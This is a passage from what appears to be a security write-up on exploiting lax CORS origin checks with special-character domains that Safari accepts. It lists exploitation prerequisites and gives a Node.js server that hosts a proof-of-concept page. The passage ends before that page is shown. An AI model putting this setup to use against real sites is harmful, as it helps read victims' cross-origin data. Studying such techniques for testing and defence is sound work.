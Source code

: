 ![Example3](/images/cors-special.png "result")

<br>
Such a domain would be supported in a modern, common browser: <special>Safari</special>.

### Exploitation:

**Pre-Requisites:**
- A domain with a wildcard DNS record pointing it to your box.
- NodeJS

Like most browsers, Apache and Nginx (right out of the box) also don't like these special characters, so it's much easier to serve HTML and Javascript with NodeJS.

[+] <special>serve.js</special>
```javascript
var http = require('http');
var url  = require('url');
var fs   = require('fs');
var port = 80

http.createServer(function(req, res) {
    if (req.url == '/cors-poc') {
        fs.readFile('cors.html', function(err, data) {
            res.writeHead(200, {'Content-Type':'text/html'});
            res.write(data);
            res.end();
        });
    } else {
        res.writeHead(200, {'Content-Type':'text/html'});
        res.write('never gonna give you up...');
        res.end();
    }
}).listen(port, '0.0.0.0');
console.log(`Serving on port ${port}`);
```
<br>
